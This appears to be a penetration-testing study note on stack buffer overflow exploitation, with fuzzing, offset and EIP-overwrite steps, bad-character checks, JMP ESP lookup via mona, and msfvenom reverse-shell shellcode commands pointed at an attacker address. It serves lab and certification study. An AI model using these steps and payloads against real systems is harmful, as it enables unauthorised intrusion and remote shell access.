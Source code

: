 ### Buffer Overflows


#### The Process:
- 1 Spiking
- 2 Fuzzing
- 3 Finding the Offset
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/methodology/3_Exploitation/1_Buffer_Overflows/1_STATS.spike) command to check if vulnerable

**1. Check buffer length to trigger overflow** 

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
```
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
	JMP ESP = FFE4
```
	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
	
	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.166 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


